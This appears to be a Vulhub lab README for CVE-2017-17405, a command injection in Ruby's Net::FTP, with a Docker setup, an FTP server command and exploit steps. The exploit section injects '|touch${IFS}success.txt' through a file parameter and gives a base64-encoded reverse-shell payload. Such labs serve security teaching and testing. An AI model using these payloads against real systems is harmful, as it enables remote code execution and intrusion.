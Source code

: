 # Ruby Net::FTP Module Command Injection (CVE-2017-17405)

[中文版本(Chinese version)](README.zh-cn.md)

Ruby Net::FTP module is a FTP library provided by Ruby core.

Ruby before 2.4.3 allows Net::FTP command injection. `Net::FTP#get`, `getbinaryfile`, `gettextfile`, `put`, `putbinaryfile`, and `puttextfile` use `Kernel#open` to open a local file. If the localfile argument starts with the "|" pipe character, the command following the pipe character is executed. The default value of localfile is `File.basename(remotefile)`, so malicious FTP servers could cause arbitrary command execution.

## Vulnerable environment

Execute following command to start a Ruby 2.4.1 webserver that uses Net::FTP to download FTP file:

```
docker compose up -d
```

After the server is started, a simple webserver is running on `http://your-ip:8080/`. What this server does is that when we visit `http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`, it downloads the file `vulhub.txt` from FTP server `example.com:2121`.

## Exploit

Since this is an FTP client vulnerability, we have to to run a simple FTP server that can be accessed. For example, using Python's pyftpdlib:

```
# intsall pyftpdlib
pip install pyftpdlib

# start a FTP server on `0.0.0.0:2121`
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

Then, use this FTP server address as the *uri* parameter and the payload `|touch${IFS}success.txt` as the *file* parameter in following request:

```
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

Go into the docker container, you can see the `success.txt` has been created successfully:

![](2.png)

Change the payload to `|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'` and get a reverse shell:

![](3.png)
